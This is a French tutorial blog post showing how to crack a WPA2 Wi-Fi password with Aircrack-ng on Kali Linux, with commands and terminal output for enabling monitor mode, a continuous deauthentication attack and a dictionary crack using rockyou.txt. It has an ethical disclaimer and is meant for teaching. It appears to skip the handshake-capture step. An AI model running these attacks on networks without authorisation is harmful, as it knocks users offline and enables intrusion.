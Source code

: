 ```yaml
---
title: Aircrack-NG Crack WIFI WPA2 Password
time: 2024-12-19 12:00:00
categories: [Hacking]
tags: [kali,wifi,hack,cybersecurity]
image: /assets/posts/WiFi/aircrack.jpg
---
```


## 🚨 Préambule Éthique

> **ATTENTION :** Ce guide est strictement à des fins éducatives et professionnelles.


## 🚀 Aircrack-NG 


-------------------

## 🎯 Préréquis
>  Un ordinateur portable

>  Système Kali linux 

>  Adaptateur Wifi qui supporte le mode monitor 

>  Votre propre point d'acès WIFI que vous avez le droit de pirater 

-------------------


## 🛠️ Préparation de l'environnement


#### Le lien pour télécharger la machine virtuelle Kali linux.

> [Kali Virtual Machine](https://www.kali.org/get-kali/#kali-virtual-machines)


## 🎮 WORKFLOW COMPLET

### 1️⃣ Véfication de l'interface wifi 

> Lancer la commande ```iw  dev``` pour lister les interfaces sans fil actives et leurs configurations.

```bash
┌──(korpstation㉿mrhove)-[~]
└─$ iw dev   
phy#0
	Unnamed/non-netdev interface
		wdev 0xa
		addr e8:2a:ea:2c:3c:74
		type P2P-device
	Interface wlan0
		ifindex 5
		wdev 0x4
		addr e8:2a:ea:2c:3c:74
		ssid korpstation
		type managed
		channel 6 (2437 MHz), width: 20 MHz, center1: 2437 MHz
		txpower 22.00 dBm
		multicast TXQ:
			qsz-byt	qsz-pkt	flows	drops	marks	overlmt	hashcoltx-bytes	tx-packets
			0	0	0	0	0	0	0	00
```
Comme vous pouvez le noter sur la sortie de la commande, mon interface wifi est ```wlan0``` et est bien en mode ```managed```

### 2️⃣ Vérifier les processus en cours
Lancer la commande ```sudo airmon-ng check kill``` pour vérifier et arrêter les processus en cours qui interfereront avec airmong-ng. 

```bash
┌──(korpstation㉿mrhove)-[~]
└─$ sudo airmon-ng check kill
Killing these processes:

    PID Name
    779 wpa_supplicant

```

### 3️⃣ Activation du mode monitor
Lancer la commande ```sudo airmon-ng start wlan0 ``` pour mettre notre interface en mode monitor. 
> Le mode monitor permet à notre carte wifi d'écouter tout le traffic wifi environnant pour nous afficher les réseaux disponibles.

> Relancer la commande ```iw dev ``` pour vérifier si l'interface est bien passée au mode monitor 

```bash
┌──(korpstation㉿mrhove)-[~]
└─$ sudo airmon-ng start wlan0 


PHY	Interface	Driver		Chipset

phy0	wlan0		iwlwifi		Intel Corporation Wireless 7260 (rev 6b)
		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
		(mac80211 station mode vif disabled for [phy0]wlan0)

                                                                                
┌──(korpstation㉿mrhove)-[~]
└─$ iw dev 
phy#0
	Interface wlan0mon
		ifindex 6
		wdev 0xb
		addr e8:2a:ea:2c:3c:74
		type monitor
		channel 10 (2457 MHz), width: 20 MHz (no HT), center1: 2457 MHz

```

### 4️⃣ Capture Stratégique
```bash
# ⚡ Déauthentification Tactique
sudo aireplay-ng --deauth 0 -a [MAC] wlan0mon
```

### 5️⃣ Analyse Finale
```bash
# 🔓 Tentative de Déchiffrement
sudo aircrack-ng -w rockyou.txt capture-01.cap
```

-------------------

